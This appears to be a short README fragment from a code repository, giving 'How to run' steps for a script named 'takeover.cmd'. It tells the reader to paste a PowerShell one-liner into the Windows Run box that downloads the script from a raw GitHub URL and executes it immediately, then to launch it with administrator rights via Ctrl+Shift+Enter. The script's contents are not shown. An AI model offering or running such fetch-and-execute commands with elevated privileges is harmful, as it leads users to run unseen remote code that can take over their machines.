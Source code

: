 **How to run:**
- Win+R
- Paste:
    *cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"*
- Ctr+Shift+Enter
